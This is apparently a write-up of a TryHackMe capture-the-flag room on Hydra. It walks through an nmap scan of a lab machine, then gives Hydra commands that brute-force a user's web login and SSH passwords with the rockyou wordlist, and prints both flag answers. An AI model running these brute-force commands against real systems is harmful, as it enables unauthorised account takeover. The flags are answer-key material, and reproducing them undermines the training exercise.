 # Hydra 

### [Task 2] 

#####  1. Use Hydra to bruteforce molly's web password. What is flag 1?



* Scan open ports
```nmap -sV -sS 10.10.166.155```

![nmap-scan](https://user-images.githubusercontent.com/62840507/128612421-d85ea0f6-64de-454c-ac84-dfb749fe4fa8.png)



* There is a website on port 80. Let's take a look at it. 

![Ekran Görüntüsü (2)](https://user-images.githubusercontent.com/62840507/128612567-faacea6f-38fc-46ab-9c91-991377fbd9d8.png)



* According ot the question the user name is molly and we now need to find her password with hydra.

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V ```

![image](https://user-images.githubusercontent.com/62840507/128612618-53e8b508-20c2-47ac-80ea-1dfd8084c80b.png)



Login with these credentials and you will find the flag.

**Flag1 :** THM{2673a7dd116de68e85c48ec0b1f2612e}




##### 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

* We need SSH password. Command I used

``` hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.166.155 ssh -t 4 ```

![image](https://user-images.githubusercontent.com/62840507/128612950-a4045c04-23ef-437c-8866-7140512b8bdb.png)



* Now that we have the SSH password, we can login in with those credentials.

```ssh molly@10.10.166.155```

![image](https://user-images.githubusercontent.com/62840507/128613063-397a5fde-6554-4a2c-9513-37d0569b3948.png)




**Flag2 :** THM{c8eeb0468febbadea859baeb33b2541b}


